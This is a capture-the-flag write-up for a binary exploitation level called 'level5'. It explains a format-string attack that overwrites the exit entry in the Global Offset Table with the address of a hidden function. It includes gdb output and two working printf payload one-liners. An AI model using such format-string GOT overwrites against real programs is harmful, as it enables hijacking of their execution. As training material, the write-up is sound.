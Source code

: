 # level5

In this level, we discover the concept of GOT, not *Game Of Thrones* but `Global Offset Table`. It's like a phonebook with external libraries functions addresses.

There are three functions, including `main`, which only calls the second one, called `n` and a function which is never called named `o` with a syscall.  
The `n` function takes input from `stdin` (no overflow possible), and calls printf with it. Again this is an unprotected `printf` call. The noticable thing is the call to `exit`. And this is the exit function that we can exploit.  

The goal is to write the address of `o` in place of `exit` in the GOT. So, we need to search for `o` address and `exit` GOT address :

```
info functions
All defined functions:
[...]
0x080484a4  o
^^^^^^^^^^
[...]

(gdb) disas n 
Dump of assembler code for function n:
 [...]
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
                                         ^^^^^^^^^^

(gdb) x/i 'exit@plt'
   0x80483d0 <exit@plt>:	jmp    *0x8049838
                                       ^^^^^^^^^^
```

Now that we have them, we just need craft the printf payload in the same manner as the last exercise, knowing that the fourth argument is the buffer. We just need to write the two last bytes because the first two are the same. 

#### The 🗑️ ugly way 🗑️

```bash
python -c 'print "\x08\x04\x98\x38"[::-1] + "%33952p%4$hn"' > /tmp/5 && cat /tmp/5 - | ./level5
```

#### The ✨ cooler way ✨

```bash
python -c 'print "\x08\x04\x98\x39"[::-1] + "\x08\x04\x98\x38"[::-1] + "%124p%4$hhn%32p%5$hhn"' > /tmp/5 && cat /tmp/5 - | ./level5
```
